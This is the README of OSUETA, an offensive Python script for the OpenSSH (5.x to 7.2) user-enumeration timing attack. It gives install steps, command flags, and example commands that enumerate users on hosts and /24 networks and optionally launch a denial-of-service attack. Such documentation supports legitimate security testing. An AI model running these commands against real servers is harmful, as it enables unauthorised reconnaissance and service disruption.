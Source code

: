         ***************************************************************************
        *                  ___                 ___ ___ _  _                       *
        *                 / _ \ _ __  ___ _ _ / __/ __| || |                      *
        *                | (_) | '_ \/ -_) ' \\__ \__ \ __ |                      *
        *                 \___/| .__/\___|_||_|___/___/_||_|                      *
        *                      |_|                                                *
        *   _   _               ___                             _   _             *
        *  | | | |___ ___ _ _  | __|_ _ _  _ _ __  ___ _ _ __ _| |_(_)___ _ _     *
        *  | |_| (_-</ -_) '_| | _|| ' \ || | '  \/ -_) '_/ _` |  _| / _ \ ' \    *
        *   \___//__/\___|_|   |___|_||_\_,_|_|_|_\___|_| \__,_|\__|_\___/_||_|   *
        *                                                                         *
        *          _____ _       _               _  _   _           _             *
        *         |_   _(_)_ __ (_)_ _  __ _    /_\| |_| |_ __ _ __| |__          *
        *           | | | | '  \| | ' \/ _` |  / _ \  _|  _/ _` / _| / /          *
        *           |_| |_|_|_|_|_|_||_\__, | /_/ \_\__|\__\__,_\__|_\_\          *
        *                              |___/                                      *
        ***************************************************************************


What's OSUETA?
==============

        Osueta it's a simple Python2 script to exploit the OpenSSH User Enumeration Timing Attack, 
        present in OpenSSH versions <= 7.2 and >= 5.* . The script has the ability to make variations
        of the username employed in the bruteforce attack, and the possibility to establish
        a DOS condition in the OpenSSH server. 

        http://cureblog.de/openssh-user-enumeration-time-based-attack/
        http://seclists.org/fulldisclosure/2013/Jul/88 
        http://www.devconsole.info/?p=341
        http://www.devconsole.info/?p=382
        http://www.devconsole.info/?p=493
        http://www.devconsole.info/?p=782
        
    	The bug was corrected in OpenSSH version 7.3:
    	http://www.openssh.com/txt/release-7.3

Authors:
========

        c0r3dump3d | coredump<@>autistici.org
        rofen | rofen<@>gmx.de

	We want to give the thanks to Javier Nieto from www.behindthefirewalls.com for his support and help.

Advice:
=======

	Like others offensive tools, the authors disclaims all responsibility in the use of this script.


Installing:
===========

        # apt-get install python-ipy python-nmap 
        # pip install paramiko
        # git clone https://github.com/c0r3dump3d/osueta.git 


Usage:
======
	usage: osueta.py [-h] [-H HOST] [-k HFILE] [-f FQDN] [-p PORT] [-L UFILE]
                 [-U USER] [-d DELAY] [-v VARI] [-o OUTP] [-l LENGTH]
                 [-c VERS] [--dos DOS] [-t THREADS]

	OpenSSH User Enumeration Time-Based Attack Python script

	optional arguments:
  	-h, --help  show this help message and exit
  	-H HOST     Host Ip or CIDR netblock.
  	-k HFILE    Host list in a file.
  	-f FQDN     FQDN to attack.
  	-p PORT     Host port.
  	-L UFILE    Username list file.
  	-U USER     Only use a single username.
	-d DELAY    Time delay fixed in seconds. If not, delay time is calculated.
  	-v VARI     Make variations of the username (default yes).
  	-o OUTP     Output file with positive results.
	-l LENGTH   Length of the password in characters (x1000) (default 40).
  	-c VERS     Check or not the OpenSSH version (default yes).
  	--dos DOS   Try to make a DOS attack (default no).
  	-t THREADS  Threads for the DOS attack (default 5).


Example:
========

	* A single user enumeration attempt with username variations:

	        ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes

	* A single user enumeration attempt with no user variations a dos attack:

	        ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v no --dos yes

	* Scanning a C class network with only one user:
	
		./osueta -H 192.168.1.0/24 -p 22 -U root -v no 

	* Scanning a C class network with usernames from a file, delay time 15 seconds and a password of 50000 characters:

		./osueta -H 192.168.1.0/24 -p 22 -L usernames.txt -v yes -d 15 -l 50 


